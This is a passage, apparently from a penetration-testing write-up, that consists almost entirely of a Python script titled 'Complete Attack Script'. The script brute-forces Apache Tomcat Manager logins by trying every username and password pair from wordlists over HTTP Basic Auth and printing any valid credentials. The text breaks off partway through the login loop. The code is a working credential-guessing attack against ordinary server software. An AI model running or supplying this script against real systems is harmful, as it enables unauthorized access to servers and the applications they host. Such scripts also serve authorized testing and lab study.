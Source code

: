 ### Custom Python Brute Force Script

#### Complete Attack Script
```python
#!/usr/bin/python3

import requests
from termcolor import cprint
import argparse
import sys
from requests.auth import HTTPBasicAuth

def banner():
    print("""
╔══════════════════════════════════════════════════════════════╗
║                 TOMCAT MANAGER BRUTE FORCER                  ║
║              Advanced Authentication Bypass Tool             ║
╚══════════════════════════════════════════════════════════════╝
    """)

def tomcat_brute_force(url, path, users_file, passwords_file):
    """
    Advanced Tomcat Manager brute force with enhanced error handling
    """
    new_url = f"{url}{path}"
    
    try:
        # Load credential lists
        with open(users_file, 'r') as f_users:
            usernames = [line.strip() for line in f_users if line.strip()]
        
        with open(passwords_file, 'r') as f_pass:
            passwords = [line.strip() for line in f_pass if line.strip()]
        
        cprint(f"[+] Target URL: {new_url}", "cyan", attrs=['bold'])
        cprint(f"[+] Loaded {len(usernames)} usernames and {len(passwords)} passwords", "cyan")
        cprint("[+] Starting brute force attack...", "red", attrs=['bold'])
        
        total_attempts = len(usernames) * len(passwords)
        current_attempt = 0
        
        for username in usernames:
            for password in passwords:
                current_attempt += 1
                progress = (current_attempt / total_attempts) * 100
                
                try:
                    # HTTP Basic Authentication request
                    response = requests.get(
                        new_url, 
                        auth=HTTPBasicAuth(username, password),
                        timeout=10,
                        allow_redirects=False
                    )
                    
                    print(f"\r[{progress:5.1f}%] Trying {username}:{password}", end="", flush=True)
                    
                    if response.status_code == 200:
                        cprint(f"\n\n[+] SUCCESS! Valid credentials found:", "green", attrs=['bold'])
                        cprint(f"[+] Username: {username}", "green", attrs=['bold'])
                        cprint(f"[+] Password: {password}", "green", attrs=['bold'])
                        cprint(f"[+] Response Code: {response.status_code}", "green")
```